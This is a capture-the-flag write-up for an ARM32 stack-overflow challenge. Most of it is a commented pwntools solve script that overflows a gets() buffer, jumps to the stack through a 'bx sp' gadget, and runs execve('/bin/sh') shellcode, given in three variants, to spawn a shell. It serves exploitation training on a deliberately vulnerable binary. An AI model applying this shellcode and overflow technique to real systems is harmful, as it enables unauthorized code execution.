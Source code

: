 # ARM32

**`Authors:`** [m0kr4n3](https://github.com/m0kr4n3) & [LaidMalik](https://github.com/malikDaCoda)

## Description

> Imagine a binary exploitation challenge with no ASLR, no PIE, RWX segments... but it runs on ARM! Should be fun, right?  
> Note: the binary is run using qemu-arm (qemu-user).

## Write-up

### Brief Summary

- all protections are disabled (no ASLR, no PIE, XN disabled, ...)
- `gets` is used in the vulnerable function `vuln`
- there are a bunch of ways to get a shell :
  - place execve shellcode on the stack and branch to it
  - ret2libc with ROP to execute system("/bin/sh")

### TODO

### Solve script (with comments)

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/arm32")

HOST, PORT = "localhost", 1337

context.binary = elf

def main():
    global io

    # padding to reach return address
    # 0x20 for buffer size
    # +4 for frame pointer
    pad = 0x20 + 4

    # gadgets
    # +1 is added because the instructions
    # are in thumb mode
    bx_sp = next(elf.search(
        asm("bx sp", arch="thumb"),
        executable=True
    )) + 1

    io = conn()

    payload = flat(
        "/bin/sh\0",
        # padding to reach return address
        b'A'*(pad-8),
        # branch to sp, where the shellcode will be
        bx_sp,
    )

    context.clear(arch="arm")

    # although `gets` allows null bytes,
    # I think it is good practice to write
    # null-byte free shellcode

    # null-byte free shellcode
    shellcode1 = asm('''
        .code 32            @ ARM mode
        @ switch to thumb mode (unlocks 16-bit instructions)
        @ to avoid null bytes
        add r3, pc, #1
        bx r3

        .code 16            @ Thumb mode
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2 32-bit instructions (2*4) +
        @ 2*2 (pc points two instructions ahead) = 0x34
        sub r0, pc, #0x34   @ filename: &"/bin/sh" (at pc-0x34)
        eors r1, r1         @ argv: NULL
        eors r2, r2         @ envp: NULL
        movs r7, #11        @ execve syscall
        svc #1              @ invoke syscall
        mov r5, r5          @ NOP (shellcode must be 4 bytes aligned)
    ''')

    # simpler shellcode but with null bytes
    shellcode2 = asm('''
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2*4 (pc points two instructions ahead) = 0x30
        sub r0, pc, #0x30   @ filename: &"/bin/sh" (at pc-0x30)
        mov r1, #0          @ argv: NULL
        mov r2, #0          @ envp: NULL
        mov r7, #11         @ execve syscall
        svc #0              @ invoke syscall
    ''')

    # we can also get lazy and use shellcraft
    shellcode3 = asm(shellcraft.arm.execve(b"/bin/sh\0", 0, 0))

    io.recvline()

    payload += shellcode1

    # `gets`  stops reading when encountering a newline
    assert(b'\n' not in payload)
    io.sendline(payload)

    io.interactive()

def conn():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        if args.GDB:
            p = process(["qemu-arm-static", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        else:
            p = process(["qemu-arm-static", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()
```

### Flag

`shellmates{ARM_Xpl0it$_4r3_C00l}`
